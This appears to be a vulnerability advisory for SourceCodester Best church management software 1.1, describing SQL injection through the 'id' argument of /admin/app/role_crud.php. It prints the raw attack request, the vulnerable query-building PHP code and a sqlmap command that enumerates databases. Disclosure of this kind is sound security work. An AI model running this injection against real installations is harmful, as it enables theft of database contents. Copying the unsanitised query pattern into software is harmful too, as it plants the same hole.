 A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in `/admin/app/role_crud.php`. Affected is file `/admin/app/role_crud.php`,The manipulation of the argument id leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

Request：
```
POST /admin/app/role_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

update=1&id=*
```

Affect code(`/admin/app/role_crud.php`):
```
......
if (isset($_POST['update'])) {
      
      
     extract($_POST);
     $stmt = $conn->prepare("delete  from permission_role where group_id='".$_POST['id']."'");
    $stmt->execute();

    $stmt = $conn->prepare("UPDATE groups set name='$name',description='$description' where id='".$_POST['id']."'");
    $stmt->execute();

    $checkItem = $_POST["checkItem"];
    //print_r($_POST);
    $a = count($checkItem);  
    for($i=0;$i<$a;$i++){
    $id = $_POST['id'];

        $sql="insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')";
        $execute = $conn->query($sql);
        
    }
    
        $_SESSION['update'] = "update";
        header("location:../manage_role.php");
}
......
```

Exploit:
```
python D:\Tools\sqlmap\sqlmap.py -r .\1.txt --dbs
```
![图片](https://github.com/user-attachments/assets/21d238f1-5481-41da-8d33-b0b544ae5f22)

![图片](https://github.com/user-attachments/assets/a1bf1402-95fc-45b4-aa7c-f3c36d1d6ae2)

